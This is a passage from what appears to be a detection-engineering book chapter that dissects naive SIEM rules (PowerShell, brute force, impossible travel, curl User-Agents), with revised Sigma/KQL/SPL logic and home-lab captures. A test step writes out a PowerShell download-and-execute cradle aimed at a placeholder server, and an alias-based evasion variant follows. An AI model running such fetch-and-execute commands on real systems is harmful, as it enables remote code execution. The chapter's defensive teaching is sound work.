




# Part 40 — Detection Autopsy

## Why this part exists

**[CONCEPT]** Seven parts back — Part 10, Part 11, Part 12 (twice), Part 14, Part 15, Part 16, and Part 32 — this book seeded a naive rule, gave it a short Detection Autopsy callout, and explicitly deferred the full teardown to here. This part collects all seven, dissects each one to the same depth, and shows the actual replacement in enough detail to build. It introduces no eighth naive rule and no new detection category; every technique used in this part's fixes was already built, with its own ID and its own MITRE mapping, in the part that owns it. What this part adds is the side-by-side accounting — original logic, why it passed a design review anyway, the specific false-positive and false-negative mechanism, the context the naive version was missing, the revised analytic, how to test it, and where the result lands on the six-tier Detection Coverage scale (TERMINOLOGY.md §5) — for all seven in one place, so the pattern underneath all of them is visible as a pattern rather than seven unrelated stories.

That pattern, stated once up front so it doesn't need restating seven times: every naive rule in this chapter is a single field, evaluated with a single fixed threshold, and shipped because a single field is cheap to write, cheap to explain in a design review, and matches an intuitive story about what an attacker does. Every one of them failed in production for the same underlying reason — the field it checks is also produced, constantly, by ordinary legitimate activity, and the rule has no baseline, no correlation, and no confidence weighting to tell the two apart. Every fix in this chapter adds one or more of exactly three ingredients: a baseline specific to the entity being evaluated (Part 31), a correlation across two or more otherwise-weak signals (Part 30), or a confidence/rarity input from outside the raw event itself (Part 32, Part 33). None of the seven fixes invents a fourth ingredient. That itself is the chapter's real finding.

This part assumes the reader has already read (or can look up) Parts 10, 11, 12, 14, 15, and 16 for the full mechanics of each fix — this chapter cites the detection IDs those parts built (`DET-10-02`, `DET-11-01`, `DET-11-02`, `DET-12-02` through `DET-12-04`, `DET-15-05`, `DET-16-04`) rather than re-deriving them, and mints new IDs (`DET-40-01`, `DET-40-02`) only for the two gaps where an earlier part described the fix conceptually but never shipped it as a numbered rule. Part 32 (Threat Intelligence in Detection) had not yet shipped at the time this part was written; §8 treats its naive rule honestly on that basis — describing the fix's shape from Part 32's own scope statement in `BOOK-INDEX.md` rather than citing a rule ID that doesn't exist yet.

## 1. The shared anatomy of a naive rule

**[CONCEPT]** Table 40.1 lists the seven rules this part dissects, each tagged with the part that seeded it and the one ingredient — baseline, correlation, or confidence/rarity — that its fix adds. Read down the third column: every fix is one of the same three ingredients, sometimes combined, never a fourth thing.

| Naive rule | Seeded in | Single field it checks | Missing ingredient |
|---|---|---|---|
| PowerShell execution = malicious | Part 10 | Process image name (`powershell.exe`) | Correlation (content + network) |
| Five failed logins = brute force | Part 12 | Failure count in a fixed window | Baseline (per-account rate) |
| Foreign country = compromise | Part 12 | Country field on a single sign-in | Correlation (velocity across two sign-ins) |
| Curl in the User-Agent = attacker | Part 14 | User-Agent substring | Baseline + correlation (rarity, path, source) |
| Long DNS label = tunnel | Part 15 | Label length | Correlation (entropy + fan-out + query-type) |
| Unsigned process = malware | Part 11 / Part 16 | Code-signing status | Correlation (parent-child lineage) |
| Rare domain = malicious | Part 32 | First-seen/prevalence flag | Confidence (age, infrastructure role, local context) |

**[CONCEPT]** Figure 40.1 generalizes the lifecycle every one of these seven rules actually went through, independent of which telemetry source or which team wrote it. The shape is always the same: a real, correctly-identified attacker behavior gets reduced to the one field that's cheapest to filter on, the reduction gets approved because it's cheap and it tells an intuitive story, and production either drowns the rule in false positives or lets the real attacker walk around it — usually both, for different subsets of traffic.





**Figure 40.1 — Lifecycle of a naive detection rule, from approval to autopsy (FIG-40-01).** *CONCEPTUAL.* Illustrates the generalized path every rule in this chapter followed: single-field reduction, review approval on cost/intuition grounds, a production failure mode that is a false-positive flood, a false-negative blind spot, or both, and a fix that always adds baseline, correlation, or confidence — never a fourth kind of ingredient. This is a synthesis sketch drawn from the seven case studies below, not a capture of any single rule's actual deployment history.

---

## 2. "PowerShell execution = malicious" (Part 10)

**[CONCEPT]** Part 10 §1 seeded this rule and named its failure mode in one sentence: PowerShell is also the delivery mechanism for Desired State Configuration, SCCM/Intune baselines, AV/EDR health checks, and most scheduled-task automation on a modern estate. This section restates the autopsy in full and adds the pieces Part 10 deferred.

> **Detection Autopsy — "PowerShell execution = malicious"**
>
> **The rule:** Alert on every process-creation event where the new process image is `powershell.exe` or `pwsh.exe`.
>
> **Why it shipped:** PowerShell appears in nearly every post-exploitation writeup past initial access, and "alert on the binary name" is a one-line filter against telemetry every estate already has — cheap to write, easy to justify in a design review as "covering a known attacker tool."
>
> **How it failed:** PowerShell is the delivery mechanism for Desired State Configuration, SCCM/Intune baseline scripts, AV/EDR agent health checks, Exchange and Azure management tooling, and most scheduled-task automation on a modern Windows estate — on a few thousand endpoints, that's tens of thousands of legitimate launches a day. The rule either gets an exclusion list that grows until it excludes the exact parent-process/account combination an attacker would use, or gets left on and ignored.
>
> **The fix:** Log script block content (Event ID 4104), not process presence; treat AMSI signals and encoding as weak signals, not verdicts; and require a matching network event within a bounded correlation window before raising confidence. Detailed below.

**[ANALYST]** **False positives:** every one of the legitimate uses listed above — a DSC pull-mode agent applying a baseline, an Intune remediation script, an Exchange management-shell session run by an admin — produces a `powershell.exe` process-creation event with no attacker involvement whatsoever, at a volume that scales with the estate's own automation maturity rather than with attacker activity. A well-managed estate with heavy configuration-management use produces *more* of these false positives than a poorly-managed one, which inverts the rule's intended signal.

**[DETECTION ENGINEER]** **False negatives:** the process-name check is defeated entirely by anything that runs PowerShell's engine without spawning a process named `powershell.exe` — `rundll32.exe` hosting the PowerShell COM/.NET assembly directly, a renamed copy of the binary, or a downgrade to PowerShell 2.0 hosted inside a different parent. None of those change the underlying script-block content the engine actually executes, which is exactly why Part 10 moved the detection surface to Event ID 4104 rather than the process name.

**[DETECTION ENGINEER]** **Missing context:** the naive rule has no way to distinguish *what* the PowerShell session did from *that* one launched. It is missing script-block content (what code actually ran), a download-cradle or encoding signal on that content, and a matching outbound network event within a bounded window that would confirm the script actually reached out rather than merely referencing a URL in a comment or a string it never executed.

**[DETECTION ENGINEER]** The revised analytic is `DET-10-02` (Part 10 §8): a Sigma rule requiring a download-cradle pattern in `ScriptBlockText` (`Net.WebClient`, `DownloadString`, `Invoke-WebRequest`, `BitsTransfer`) paired with an execution primitive (`IEX`, `Invoke-Expression`) in the *same* script block, escalated further only if a matching outbound connection or DNS resolution from the same host lands inside a 5-minute window of the 4104 match. The shape of that composite condition, restated at synthesis level:

CONCEPTUAL SAMPLE — illustrative composite logic; restates the field-level join Part 10 builds as a full Sigma rule, not a new implementation.

```text
ScriptBlockText contains a fetch primitive (Net.WebClient / DownloadString / Invoke-WebRequest / BitsTransfer)
  AND ScriptBlockText contains an execution primitive (IEX / Invoke-Expression)
  AND a DNS or outbound-connection event from the same host, same ProcessGuid lineage,
      occurs within 5 minutes of the 4104 event
  => confidence raised from PARTIAL to escalatable
```

> **Blind Spot**
> The fetch- and execution-primitive regexes match literal cmdlet names (`Net.WebClient`, `DownloadString`, `Invoke-WebRequest`, `IEX`, `Invoke-Expression`). PowerShell's own built-in aliases — `iwr` or `curl`/`wget` for `Invoke-WebRequest`, `iex` for `Invoke-Expression` — resolve to the identical cmdlets at runtime without ever containing the literal strings this match depends on, and cost an attacker nothing to substitute: `iex (iwr $url)` runs the same download cradle and produces a `ScriptBlockText` this regex never matches. Treat the literal-string match as a floor, not a ceiling — alias substitution is the first thing a determined attacker reaches for, not an exotic evasion, and a real deployment needs the alias forms in the pattern list or a deobfuscated-content source (AMSI, Part 10 §9's hunt) behind it.

> **Detection Test**
> **Setup:** Domain-joined Windows test host with Event ID 4104 (Script Block Logging) and Event ID 4103 (Module Logging) confirmed enabled via GPO — see the Engineering Reality note in Part 10 §2; an unconfigured host produces zero 4104 events with no error, which would make this test silently pass for the wrong reason.
> **Action:** From the test host, run a one-line download cradle: `IEX (New-Object Net.WebClient).DownloadString('http://<test-server>/payload.ps1')`.
> **Expected result:** One Event ID 4104 entry whose `ScriptBlockText` contains both `Net.WebClient`/`DownloadString` and `IEX`, and a corresponding outbound DNS/connection event to `<test-server>` from the same host within the 5-minute correlation window `DET-10-02` uses.

> **Silent Failure Check**
> This analytic depends on two independent pipelines staying alive at once: Script Block Logging (Event ID 4104) reaching the SIEM, and the correlated network/DNS telemetry from the same host arriving within the 5-minute window. Either one going dark produces no error and no missing-data alert on its own — a GPO drifting out of scope, an agent losing its 4104 channel, or a log forwarder silently dropping the network-event source all show up identically as "zero matches," indistinguishable from "no attacker activity." Monitor raw 4104 event volume per host as its own health metric, separate from this rule's match count: a host that stops producing 4104 events entirely, rather than producing zero *matching* events, is a logging failure, not a quiet day.

**[DETECTION ENGINEER]** **Result:** the naive process-name rule provides no usable Detection Coverage at all in TERMINOLOGY.md's six-tier sense — its false-positive rate is high enough that most programs disable or ignore it, which is functionally NO VISIBILITY despite telemetry existing. `DET-10-02`, requiring the content-plus-network join, reaches MULTI-SOURCE DETECTION for the download-cradle pattern specifically, and stays at PARTIAL DETECTION for nested/structural obfuscation that a single-pass keyword match over `ScriptBlockText` still misses — a gap Part 10 §9's hunt targets, not this rule.



**Figure — Event ID 4104 entry produced by the Detection Test above.** *CONCEPTUAL — illustrative field breakdown; not a captured screenshot.* Shows `ScriptBlockText` populated with both the fetch and execution primitives and the accompanying network-connection event from the same host, matching `DET-10-02`'s composite condition. This book's home-lab evidence set (`lab/evidence/`) is Linux/Proxmox-based with no Windows Script-Block-Logging host built; a real fired-alert capture is deferred to whichever contributor owns Windows-lab infrastructure.

**MITRE:** T1059.001 (Command and Scripting Interpreter: PowerShell).

---

## 3. "Five failed logins = brute force" (Part 12)

**[CONCEPT]** Part 12 §2 seeded this rule against Entra ID/Okta-style sign-in logs and named the fix direction without building the full comparison this section adds: a real, captured example of exactly the failure-burst shape a brute-force rule is meant to catch, from a source the rule's naive form cannot distinguish from an attacker.

Figure 40.2 is that captured example — genuine SSH authentication-failure records from this book's home lab, not a synthetic illustration.

```text
admin    ssh:notty    192.168.1.126    Mon Sep 14 01:17 - 01:17  (00:00)
admin    ssh:notty    192.168.1.126    Mon Sep 14 01:17 - 01:17  (00:00)
admin    ssh:notty    192.168.1.126    Mon Sep 14 01:17 - 01:17  (00:00)
root     ssh:notty    192.168.1.126    Mon Sep 14 01:06 - 01:06  (00:00)
root     ssh:notty    192.168.1.126    Mon Sep 14 01:06 - 01:06  (00:00)
root     ssh:notty    192.168.1.126    Mon Sep 14 01:06 - 01:06  (00:00)
[... 95-line capture continues at 3-20 attempts/minute, both accounts ...]
```

**Figure 40.2 — Real failed-SSH-authentication burst captured via `lastb` (FIG-40-02).** *REAL LAB EXAMPLE.* Captured from `/var/log/btmp` on CT104 ("vulnscan") in the author's home-lab Proxmox environment via `lastb -n 100`, 2026-09-15; the underlying btmp records span 2026-09-13 20:31 through 2026-09-14 01:17. `lastb -n 100` requested up to 100 records but `/var/log/btmp` only held 95 matching failed-login entries in that window, so the real capture is 95 attempts, not a round 100. All 95 attempts originate from `192.168.1.126`, a real device on the home network (resolved via the Pi-hole DHCP lease table to hostname `LAPTOP-JB22RNU3`), cycling through the `admin` and `root` account names at up to 20 attempts in a single minute (01:02). This is an internal host repeatedly failing SSH auth, not a confirmed external attacker — which is exactly the point: the raw shape of this capture is structurally identical to what a real credential-guessing tool produces, and a naive "five failures, alert" rule cannot tell the difference from the count alone.

> **Detection Autopsy — "five failed logins equals brute force"**
>
> **The rule:** Fires when a single account accumulates five or more non-zero-result sign-in events within a 5-minute window, from any source.
>
> **Why it shipped:** Five is a memorable, defensible-sounding number that echoes a directory's own lockout threshold, and it's a one-line filter, cheap to write and cheap to explain in a design review.
>
> **How it failed:** It fires on cached expired-password retries, mobile-app token-refresh retries against a just-rotated password, and legacy basic-auth retries — dozens of false positives a day on a mid-sized tenant — while a fixed 5-count-per-account threshold structurally misses password spray (many accounts, few attempts each) entirely, since no single account ever crosses the line.
>
> **The fix:** Split "many attempts, one account" from "few attempts, many accounts" as two different detections with two different thresholds, baseline the per-account failure rate instead of a fixed constant, and require a result code that actually indicates a bad-credential attempt.

**[ANALYST]** **False positives:** Figure 40.2's own capture is the false-positive case in miniature — a legitimate (if misconfigured or forgotten) device retrying two stale credentials in a tight burst produces the identical count-and-timing shape a real attacker's guessing tool would, and a bare count threshold cannot distinguish the two without additional context (device history, whether the retries ever land on a valid credential, whether the source has any prior legitimate relationship with the target account).

**[DETECTION ENGINEER]** **False negatives:** an attacker who correctly guesses on the first or second try never crosses a 5-count threshold and produces no alert at all — brute-force-by-count detection is definitionally blind to a lucky or well-informed guess, which is why Part 12 §4's login-after-failure and account-takeover composite scoring exist as separate, necessary layers rather than a tuning knob on this same rule.

**[DETECTION ENGINEER]** **Missing context:** the naive rule has no per-account historical baseline (is five failures normal for this account, or a hundred-times spike?), no filter on which result codes actually indicate a wrong-credential attempt versus any other failure reason, and no visibility into whether the burst ever resolves to a success — the single fact that would turn a nuisance into a real investigation.

**[DETECTION ENGINEER]** The revised analytic is `DET-12-02` (Part 12 §2.1): a Sentinel KQL query scoped to result codes `50126`/`50053` specifically (bad password / lockout-from-repeated-bad-password), aggregated per `UserPrincipalName` over a 30-minute window, thresholded against a per-account baseline rather than a fixed constant carried over from a lockout policy. Adapting its shape to the pattern Figure 40.2 shows, an SSH-side equivalent over the same evidence would look like:

CONCEPTUAL SAMPLE — illustrative Splunk SPL adaptation of `DET-12-02`'s logic to SSH auth-log telemetry rather than an IdP sign-in log; field names assume a normalized `auth_result`/`user`/`src_ip` schema and have not been validated against a specific SIEM's SSH parser.

```spl
index=auth sourcetype=sshd action=failure
| bucket _time span=5m
| stats count as FailedAttempts, dc(user) as DistinctAccounts, values(user) as Accounts by src_ip, _time
| where FailedAttempts >= 20
| eval RotatesAccounts=if(DistinctAccounts>1, 1, 0)
```

The `RotatesAccounts` field is what separates Figure 40.2's real capture (one source, two rotating account names, no distinct-host fan-out) from a spray pattern (many accounts, many hosts) — a distinction the naive single-account-count rule cannot express at all.

> **Detection Test**
> **Setup:** A lab-safe SSH target with authentication logging enabled and no live production accounts reachable from the test source.
> **Action:** Script 20+ SSH login attempts against `admin` and `root` from one source within a 2-minute window, using invalid credentials — the same shape Figure 40.2 shows.
> **Expected result:** A `lastb`/auth-log burst matching Figure 40.2's structure; the revised query above should flag the source on count and `RotatesAccounts=1`, while a query scoped only to a single fixed account name would miss the `root`/`admin` rotation entirely.

> **False Positive Trap**
> A device with a stale cached credential — exactly Figure 40.2's real-world cause — produces a tight, repeating burst from one source against a small, fixed set of account names, with no distinct-host fan-out and no eventual success. The fix is not raising the count threshold; it's correlating against whether the burst ever resolves to `ResultType == 0`/a successful auth and against known-device history for that source, per Part 12 §4.

> **Silent Failure Check**
> `DET-12-02` depends on the IdP actually emitting result codes `50126`/`50053` on failed sign-ins and on `UserPrincipalName` being populated consistently. A federation change, a vendor-side result-code taxonomy update, or a schema rename would make this query return zero matches with no error — indistinguishable from "no brute-force activity happened." Track the raw count of *any* non-zero-result sign-in event ingested per day as a volume baseline kept separate from the query itself; a sudden drop to zero in that raw feed, while other IdP telemetry keeps flowing normally, is the signal that the query's inputs broke, not that brute-forcing stopped.

**[DETECTION ENGINEER]** **Result:** the naive fixed-count rule sits at PARTIAL DETECTION at best — it catches an unsophisticated, fast guesser and nothing else, at an false-positive cost most programs tune away within weeks. `DET-12-02`, baselined per account with a result-code filter, reaches RELIABLE DETECTION on its own telemetry source; composed with `DET-12-03` (login-after-failure) per Part 12 §7's account-takeover scoring, the pairing reaches MULTI-SOURCE DETECTION for the case that actually matters most — a burst that ends in a success.

**MITRE:** T1110 (Brute Force), T1110.001 (Password Guessing).

---

## 4. "Foreign country = compromise" (Part 12)

**[CONCEPT]** Part 12 §6 seeded this rule and named VPN egress as the single biggest false-positive driver. This section restates the autopsy and closes the loop the earlier part left open: what replaces a static country allowlist, and what evidence would say that replacement is itself wrong.

> **Detection Autopsy — "a foreign country equals compromise"**
>
> **The rule:** Fires on any successful sign-in where the resolved country differs from the account's "home" country, checked against a static allowlist.
>
> **Why it shipped:** It matches an intuitive mental model — "our people work from our country" — and it's a single field comparison against a static list, with an obvious story for a design review.
>
> **How it failed:** Legitimate travel, remote/contractor staff genuinely based elsewhere, and VPN/corporate-egress infrastructure that geo-resolves to wherever the exit node sits all trip this rule constantly, producing dozens of alerts a day that get tuned into an ignored queue within weeks — while doing nothing against an attacker sitting on cheap, in-region cloud VPS infrastructure that happens to geo-resolve inside the "home" country.
>
> **The fix:** Replace the static country check with geovelocity-based impossible-travel logic plus per-account new-device/new-country baselining, and treat known corporate VPN egress ranges as a first-class exclusion, not noise to tune away later.

**[ANALYST]** **False positives:** a user roaming between a home ISP connection and a corporate VPN mid-session produces a same-account, different-resolved-country pair with zero actual travel — the single largest false-positive driver Part 12 names, and one a static country allowlist has no mechanism to absorb short of manually enumerating every VPN exit range as its own country-equivalent entry, which decays the moment the VPN vendor adds a new point of presence.

**[DETECTION ENGINEER]** **False negatives:** an attacker using infrastructure that happens to geo-resolve inside the "home" country — a compromised residential proxy, a rented VPS in-region, or a hop through a colocated CDN edge — produces a sign-in that passes the country check cleanly while still being a genuine account takeover; the rule's entire discriminating power depends on an assumption (attacker infrastructure is foreign) that costs an attacker nothing to defeat.

**[DETECTION ENGINEER]** **Missing context:** the naive rule evaluates one sign-in in isolation. It has no notion of *velocity* — how much time elapsed since this account's last sign-in from a different location, and whether that elapsed time is physically consistent with travel — and no allowlist of the organization's own known egress infrastructure, which is the single piece of context that would resolve most of its false positives without weakening it against a real attacker.

**[DETECTION ENGINEER]** The revised analytic is `DET-12-04` (Part 12 §6.1): a Sentinel KQL query comparing each account's successive successful sign-ins for a country change combined with an elapsed time too short for real travel between those two points, with corporate VPN/ASN ranges excluded *before* the velocity calculation runs — not compensated for by loosening the time threshold, which would just create a shorter blind window. `DET-12-04` composes with `DET-12-02`/`DET-12-03` in Part 12 §7's account-takeover scoring (Figure 12.3 in that part), which this chapter does not re-derive — it is the concrete instance of the "correlation across two low-signal events" ingredient from Table 40.1, and Part 33 generalizes the same scoring mechanism beyond identity.

> **Blind Spot**
> `DET-12-04` only has a signal to evaluate when the resolved country actually *changes* between two successive sign-ins. An attacker using infrastructure that geo-resolves to the account's own home country — a domestic VPS, a compromised domestic residential proxy, or a local exit node — produces no country change at all, so the velocity calculation never fires, no matter how physically impossible the underlying session would be otherwise. This is a different failure from the geo-IP-accuracy problem in the box below: even with perfectly accurate resolution, an attacker who simply picks same-country infrastructure defeats this fix by construction, the same way they defeated the naive rule it replaced. Catching that case depends on the device-fingerprint and behavioral signals in Part 12 §7's account-takeover score, not on this analytic alone.

> **Detection Test**
> **Setup:** A test account with two sign-in sources available: one resolving to the account's home country, and one resolving (via VPN or cloud relay) to a distant country, plus a corporate VPN egress IP/ASN added to the exclusion list.
> **Action:** Sign in from the home-country source, then within a few minutes sign in again from the distant-country source — an elapsed time physically inconsistent with travel between the two. Separately, sign in from the corporate VPN egress IP immediately after a home-country sign-in.
> **Expected result:** The first pair (home country then distant country within minutes) triggers the velocity check and raises confidence. The second pair (home country then corporate VPN egress) does not alert, because the VPN/ASN range is excluded before the velocity calculation runs — confirming the exclusion actually suppresses the case it's meant to rather than just narrowing the alert window.

> **What Would Change My Mind**
> `DET-12-04` assumes geo-IP resolution is accurate enough, at the country level, to be a meaningful travel-time input at all. If a review of confirmed-benign alerts showed geo-IP country resolution disagreeing with a user's actual country more than roughly 5% of the time — a real risk with satellite ISPs, some mobile carriers, and IPv6 allocation quirks — the velocity threshold would need to move from a standalone alerting condition to advisory context feeding the composite score in Part 12 §7, and this section's "replace the allowlist with velocity" claim would need to be revised to "velocity as one more weak signal, not a stronger standalone one."

> **Silent Failure Check**
> `DET-12-04` compares each account's *successive* successful sign-ins, so it needs a complete, ordered sign-in history per account — a connector outage or delayed batch load that drops even one sign-in from the sequence can make two genuinely distant sign-ins look adjacent (silently losing a true positive) or make two adjacent sign-ins look further apart than they actually were (silently inflating the apparent travel time and suppressing a real alert). It also depends on geo-IP enrichment resolving a country for every event; if that enrichment degrades and starts returning null instead of erroring, the comparison has nothing to evaluate and raises nothing. Monitor the null-country rate on ingested sign-ins as its own health metric, not just this rule's alert volume.

**[DETECTION ENGINEER]** **Result:** the naive country-allowlist rule provides essentially no real Detection Coverage — its false-positive rate is high enough that most programs disable it within weeks, and its bypass cost for an attacker is close to zero, which nets out closer to NO VISIBILITY than any tier that implies working detection. `DET-12-04`, velocity-based with VPN-range exclusions, reaches PARTIAL DETECTION alone (it still assumes accurate geo-IP resolution, per the box above) and MULTI-SOURCE DETECTION once composed into Part 12 §7's account-takeover score alongside device and failure-burst signals.

**MITRE:** T1078 (Valid Accounts), T1078.004 (Valid Accounts: Cloud Accounts).

---

## 5. "Curl in the User-Agent = attacker" (Part 14)

**[CONCEPT]** Part 14 §9 seeded this rule and pointed to a real honeynet capture as evidence it breaks. This section is the fully worked case study: the actual capture, the composite fix Part 14 described but never numbered as a standing rule, and a Detection Test built directly from evidence this book's own lab produced rather than a hypothetical.

Figure 40.3 is the real capture, showing genuine external attacker/scanner traffic and this lab's own internal vulnerability-scanning platform hitting the same decoy within the same short window.

```text
id   ts                                src_ip           method  path             user_agent
680  2026-09-09T17:10:47.124584+00:00  47.250.83.81     GET     /                curl/7.74.0
679  2026-09-09T17:09:18.549642+00:00  47.250.83.81     GET     /                curl/7.64.1
678  2026-09-09T17:06:47.225286+00:00  192.168.1.96     GET     /admin           Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
677  2026-09-09T17:06:47.091632+00:00  192.168.1.96     GET     /                HTTP::Lite
676  2026-09-09T17:06:46.924561+00:00  192.168.1.96     GET     /                MFC_Tear_Sample
675  2026-09-09T17:06:46.782759+00:00  192.168.1.96     GET     /                Snoopy
674  2026-09-09T17:06:46.657467+00:00  192.168.1.96     GET     /                GT::WWW
672  2026-09-09T17:06:46.284785+00:00  192.168.1.96     GET     /                Python-urllib/2.5
671  2026-09-09T17:06:46.072973+00:00  192.168.1.96     GET     /                PHP/
694  2026-09-09T21:36:41.187764+00:00  223.123.43.135   POST    /GponForm/diag_Form
```

**Figure 40.3 — Real curl/scripting-library User-Agent traffic against a honeynet decoy (FIG-40-03).** *REAL LAB EXAMPLE.* Captured from the `http_events` table of the honeynet collector on CT103 in the author's home-lab Proxmox environment, 2026-09-09 17:06–21:39, via a direct SQLite query against `/opt/hp-platform/data/honeypot.db`. Rows `680`/`679` are genuine external requests from `47.250.83.81` using bare `curl` User-Agents — exactly the naive rule's target pattern. Rows `671`–`678` are this lab's *own* CT104 vulnerability-scanner platform (`192.168.1.96`, internal, authorized) running an HTTP-client-fingerprint sweep against the same decoy within the same second, using `PHP/`, `Snoopy`, `GT::WWW`, `Python-urllib/2.5`, `HTTP::Lite`, and `MFC_Tear_Sample` — none of which are `curl`, but all of which are exactly the class of "scripting-library User-Agent" signature the naive rule targets, from a source with zero attacker intent. Row `694`, from a separate external source, is a real POST to `/GponForm/diag_Form` — the well-known path for the GPON router authentication-bypass RCE (CVE-2018-10561/10562) — carrying no distinctive scripting User-Agent at all, which is this 